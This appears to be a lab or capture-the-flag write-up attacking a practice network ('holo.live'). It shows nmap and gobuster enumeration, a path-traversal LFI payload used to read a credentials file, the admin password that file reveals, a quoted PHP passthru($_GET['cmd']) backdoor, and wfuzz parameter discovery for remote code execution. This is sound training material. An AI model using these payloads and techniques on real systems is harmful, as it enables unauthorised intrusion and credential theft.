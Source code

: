 # Holo Live

## RECON

### ENUMERATE

#### NMAP

```text
DC-SRV01: 10.200.107.30

L-SRV01: 10.200.107.33 # web server + ssh

L-SRV02: 192.168.100.100

S-SRV01
S-SRV02

PC-FILESRV01
```

```sh
# nmap -sV -sC -p- -v -o nmap-hololive-10.200.107.0-24.txt 10.200.107.0/24

Scanning 2 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.200.107.33
Discovered open port 22/tcp on 10.200.107.250
Discovered open port 22/tcp on 10.200.107.33


# 22/tcp on 10.200.107.250
debug1: Local version string SSH-2.0-OpenSSH_8.8p1 Debian-1                                                         
debug1: Remote protocol version 2.0, remote software version OpenSSH_7.6p1 Ubuntu-4ubuntu0.5                        
debug1: compat_banner: match: OpenSSH_7.6p1 Ubuntu-4ubuntu0.5 pat OpenSSH_7.0*,OpenSSH_7.1*,OpenSSH_7.2*,OpenSSH_7.3
*,OpenSSH_7.5*,OpenSSH_7.6*,OpenSSH_7.7* compat 0x04000002
```

```sh
# nmap -sV -sC -p- -v -o nmap-hololive-192.168.100.0-24.txt 192.168.100.0/24

```

#### GOBUSTER VHOST

vhost fuzzing.

set `/etc/hosts`

```sh
10.200.107.33   holo.live www.holo.live dev.holo.live admin.holo.live
```

Get this wordlist: [SecLists](https://github.com/danielmiessler/SecLists.git).

Do `gobuster` with `vhost`:

```sh
└─$ gobuster vhost -u holo.live -w ~/Documents/Lists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o gobuster-hololive-vhost.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://holo.live
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/kali/Documents/Lists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/20 19:28:03 Starting gobuster in VHOST enumeration mode
===============================================================
Found: www.holo.live (Status: 200) [Size: 21405]
Found: dev.holo.live (Status: 200) [Size: 7515] 
Found: admin.holo.live (Status: 200) [Size: 1845]
Found: gc._msdcs.holo.live (Status: 400) [Size: 422]
Found: _domainkey.holo.live (Status: 400) [Size: 422]
```

```sh
# http://www.holo.live/robots.txt:

User-Agent: *
Disallow: /var/www/wordpress/index.php
Disallow: /var/www/wordpress/readme.html
Disallow: /var/www/wordpress/wp-activate.php
Disallow: /var/www/wordpress/wp-blog-header.php
Disallow: /var/www/wordpress/wp-config.php
Disallow: /var/www/wordpress/wp-content
Disallow: /var/www/wordpress/wp-includes
Disallow: /var/www/wordpress/wp-load.php
Disallow: /var/www/wordpress/wp-mail.php
Disallow: /var/www/wordpress/wp-signup.php
Disallow: /var/www/wordpress/xmlrpc.php
Disallow: /var/www/wordpress/license.txt
Disallow: /var/www/wordpress/upgrade
Disallow: /var/www/wordpress/wp-admin
Disallow: /var/www/wordpress/wp-comments-post.php
Disallow: /var/www/wordpress/wp-config-sample.php
Disallow: /var/www/wordpress/wp-cron.php
Disallow: /var/www/wordpress/wp-links-opml.php
Disallow: /var/www/wordpress/wp-login.php
Disallow: /var/www/wordpress/wp-settings.php
Disallow: /var/www/wordpress/wp-trackback.php

# http://admin.holo.live/robots.txt

User-agent: *
Disallow: /var/www/admin/db.php
Disallow: /var/www/admin/dashboard.php
Disallow: /var/www/admin/supersecretdir/creds.txt
```

NOTE: you need to fuzz ALL domains - admin, www and dev.

on `dev.holo.live` there is `img.php`:

### Local File inclusion

We want `/var/www/admin/supersecretdir/creds.txt` from `admin.holo.live` but we're going to go through `dev.holo.live/img.php` instead- cos they're all on the same host, just using vhost.

If this gets my password: `localhost/lfi.php?file=file=../../../../../../../../etc/passwd`

Then this should land the creds file: `dev.holo.live/img.php?file=../../../../../../../../var/www/admin/supersecretdir/creds.txt`

### admin creds

For `admin.holo.live`:

```sh
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```

## Remote Code Execution

2 methods for finding RCE:

1. source code analysis i.e. "view source" and see if you can spot the usual suspects `$_GET['cmd']`.
2. fuzzing with wfuzz or gobuster

### source code analysis

Looking at `view-source:http://admin.holo.live/dashboard.php`:

```html
Visitors today</h4>
<!--//if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
</div>
```

This looks dodgy, looks like `cmd` is the parameter it will accept.

### fuzzing for remote code exec

Option if we maybe don't have source code access.

Lookup [wfuzz](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html) and learn how it works.

Now that you can authN to admin, use cookies for authN wfuzz session.

We have the `dashboard.php` file which we will fuzz for what html parameter it accepts that we can use for Remote Code Execution (RCE).

```sh
└─$ wfuzz -u http://admin.holo.live/dashboard.php?FUZZ=ls+-la -b PHPSESSID=21cdlttlafq7klmnrpl3r266vs -w wordlist.txt --hw 2
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://admin.holo.live/dashboard.php?FUZZ=ls+-la
Total requests: 7

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000003:   200        394 L    1052 W     15869 Ch    "bolo"                                             
000000001:   200        394 L    1052 W     15869 Ch    "hash"                                             
000000007:   200        394 L    1052 W     15869 Ch    "forest"                                           
000000006:   200        394 L    1052 W     15869 Ch    "last"                                             
000000002:   200        394 L    1052 W     15869 Ch    "cat"                                              
000000004:   200        394 L    1052 W     15869 Ch    "dior"                                             
000000005:   200        407 L    1170 W     16551 Ch    "cmd"                                              

Total time: 0.871835
Processed Requests: 7
Filtered Requests: 0
Requests/sec.: 8.029040
```

Explain:

- `-u http://admin.holo.live/dashboard.php?FUZZ=ls` trying to find the parameter for `FUZZ`
- `-b PHPSESSID=21cdlttlafq7klmnrpl3r266vs` its an admin page and needs an authN.
- `-w wordlist.txt` wordlist to use.
- `--hw 2`

My experiment here was a wordlist I know for sure has the correct parameter, so the way to tell the correct from the rest of the results (all returned `200 OK`), and you can see the returned lines for the `cmd` parameter is different from the rest.

[cmd=ls](http://admin.holo.live/dashboard.php?cmd=ls)